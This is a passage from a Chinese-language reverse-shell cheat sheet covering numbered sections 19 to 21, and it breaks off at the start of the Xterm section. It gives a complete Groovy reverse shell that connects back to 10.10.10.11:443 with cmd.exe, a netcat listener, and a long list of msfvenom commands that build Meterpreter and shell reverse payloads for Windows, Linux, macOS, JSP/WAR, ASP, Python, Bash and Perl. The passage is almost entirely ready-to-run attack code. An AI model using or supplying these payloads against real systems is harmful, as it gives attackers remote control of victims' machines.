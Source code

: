 ## 19、Groovy版本反弹shell
首先在本地监听TCP协议443端口

```bash
nc -lvp 443
```
然后在靶机上执行如下命令：
```bash
String host="10.10.10.11";
int port=443;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```
## 20、生成Meterpreter反弹Shell:
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.10.11 LPORT=443 -f exe > reverse.exe
```
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.11 LPORT=443 -f exe > reverse.exe
```
```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.10.10.11 LPORT=443 -f elf >reverse.elf
```
```bash
msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.10.10.11 LPORT=443 -f elf >reverse.elf
```
```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST="10.10.10.11" LPORT=443 -f elf > shell.elf
```
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST="10.10.10.11" LPORT=443 -f exe > shell.exe
```
```bash
msfvenom -p osx/x86/shell_reverse_tcp LHOST="10.10.10.11" LPORT=443 -f macho > shell.macho
```
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST="10.10.10.11" LPORT=443 -f asp > shell.asp
```
```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST="10.10.10.11" LPORT=443 -f raw > shell.jsp
```
```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST="10.10.10.11" LPORT=443 -f war > shell.war
```
```bash
msfvenom -p cmd/unix/reverse_python LHOST="10.10.10.11" LPORT=443 -f raw > shell.py
```
```bash
msfvenom -p cmd/unix/reverse_bash LHOST="10.10.10.11" LPORT=443 -f raw > shell.sh
```
```bash
msfvenom -p cmd/unix/reverse_perl LHOST="10.10.10.11" LPORT=443 -f raw > shell.pl
```
## 21、使用Xterm反弹shell
首先在本地监听TCP协议443端口
